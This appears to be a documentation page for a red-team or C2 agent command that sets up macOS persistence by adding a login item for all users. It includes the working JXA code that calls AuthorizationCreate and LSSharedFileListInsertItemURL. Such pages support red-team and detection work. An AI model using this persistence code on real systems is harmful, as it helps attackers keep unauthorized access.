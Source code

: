+++
title = "persist_loginitem_allusers"
chapter = false
weight = 100
hidden = false
+++

## Summary

Add a login item for all users via the LSSharedFileListInsertItemURL. The kLSSharedFileListGlobalLoginItems constant is used when creating the shared list in the LSSharedFileListCreate function. Before calling LSSharedFileListInsertItemURL, AuthorizationCreate is called to obtain the necessary rights. If the current user is not an administrator, the LSSharedFileListInsertItemURL function will fail.
- Needs Admin: False  
- Version: 1  
- Author: @xorrior  

### Arguments

#### path

- Description: path to binary to execute on execution
- Required Value: True  
- Default Value: None  

#### name

- Description: The name that is displayed in the Login Items section of the Users & Groups preferences pane
- Required Value: True  
- Default Value: None 

## Usage

```
persist_loginitem_allusers
```

## Detailed Summary
This function uses ObjectiveC API calls to set a new login item
```JavaScript
let result = $.AuthorizationCreate($.nil, $.nil, $.kAuthorizationDefaults, Ref(auth));
if (result === 0) {
    let temp = $.CFURLCreateWithString($.kCFAllocatorDefault, args['path'], $.nil);
    let items = $.LSSharedFileListCreate($.kCFAllocatorDefault, $.kLSSharedFileListGlobalLoginItems, $.nil);
    $.LSSharedFileListSetAuthorization(items, auth);
    let cfName = $.CFStringCreateWithCString($.nil, args['name'], $.kCFStringEncodingASCII);
    let itemRef = $.LSSharedFileListInsertItemURL(items, $.kLSSharedFileListItemLast, cfName, $.nil, temp, $.nil, $.nil);
    return {"user_output": "LoginItem installation successful", "completed": true};
}
```